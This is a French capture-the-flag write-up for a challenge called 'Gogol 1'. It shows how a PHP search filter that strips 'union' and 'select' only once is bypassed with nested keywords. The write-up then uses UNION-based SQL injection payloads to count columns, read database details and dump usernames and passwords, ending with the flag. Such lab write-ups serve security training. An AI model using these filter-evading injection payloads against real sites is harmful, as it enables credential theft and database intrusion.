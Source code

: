 # Gogol 1

Ici on a un premier coup de main fourni par l'énoncé

> Tu peux voir le code source de l'application en ajoutant le paramètre "GetItNude" dans ta requête GET.

On récupère donc le code PHP du backend qui gère les recherches.  
Et en PHP, quand on voit une requête non-préparée qui implémente des filtres fait main, en général ça pue l'injection SQL.

On remarque que le filtre consiste à remplacer les mots clés "union" et "select" par.. rien.

```php
$filter = array('union', 'select');

// Remove all banned characters
foreach ($filter as $banned) {
    $_GET['q'] = preg_replace('/' . $banned . '/i', '', $_GET['q']);
} 
```

Et comme le filtre n'est appliqué qu'une fois, on peut s'amuser à écrire des choses comme ça `uunionnion` qui, une fois 
passé dans notre "filtre", deviendra un "union" parfaitement valide syntaxiquement parlant. On peut faire le test :

```php
$haystack = "uunionnion";
$filter = array('union', 'select');

// Remove all banned characters
foreach ($filter as $banned) {
    $haystack = preg_replace('/' . $banned . '/i', '', $haystack);
}

echo $haystack;
```

Evidemment cela fonctionne aussi pour select (ou devrais-je dire `sselectelect`).

Reste maintenant à échapper notre LIKE dans la requête. Le plus simple est d'utiliser un `' and 0` (ou  un `' and NULL` ou un  `' and 1` ou ... bref vous avez l'idée).
On se retrouve donc avec une requête qui ressemble plus ou moins à ça :

```
' and 0 UUNIONNION SSELECTELECT 1#
```

Reste à déterminer le nombre de colonnes de façon itérative :

```
' and 0 UUNIONNION SSELECTELECT 1#
' and 0 UUNIONNION SSELECTELECT 1,2#
' and 0 UUNIONNION SSELECTELECT 1,2,3# <-- les numéros de colonnes s'affichent 
```

Maintenant qu'on a le nombre de colonne, reste plus qu'à chercher un peu dans la bdd :

```
' and 0 UUNIONNION SSELECTELECT version(),user(),database()#
```


![gogol1_1](gogol1_1.png)

on pourrait facilement retrouver le nom des tables mais le plus simple reste d'essayer avec des nom de tables / champs classiques :


```
' and 0 UUNIONNION SSELECTELECT username,password,3 from users#
```

![gogol1_2](gogol1_2.png)

Et le challenge est validé :)

`INEAT{azerty-is-a-g00d-p4ssw0rd}`

# Gogol 2
